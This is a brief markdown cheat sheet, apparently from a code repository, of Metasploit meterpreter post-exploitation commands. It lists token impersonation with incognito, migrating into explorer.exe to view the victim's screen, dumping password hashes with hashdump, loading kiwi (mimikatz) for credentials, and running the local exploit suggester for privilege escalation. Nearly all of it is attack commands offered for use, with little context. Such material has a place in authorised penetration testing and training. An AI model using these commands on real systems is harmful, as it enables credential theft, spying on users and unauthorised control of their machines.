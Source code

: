 # Table of Contents
- [meterpreter](#meterpreter)
- [exploit suggest](#exploit-suggest)

<br>
<br>

# meterpreter
1) this will make you run programs as the user you picked  
```
 load incognito
impersonate user <user>
```
2) this will make you see what is going on, on the screen right now  
```
migrate <pid_of_explorer.exe>
screenshare
```
3) get users and their hases
```
hashdump
```
4) like mimikatz but for 64 bit
```
load kiwi
 ```

 <br>
 <br>

 # exploit suggest
```
use /post/multi/recon/local_exploit_suggester
set session <num_of_the_session>
run
```


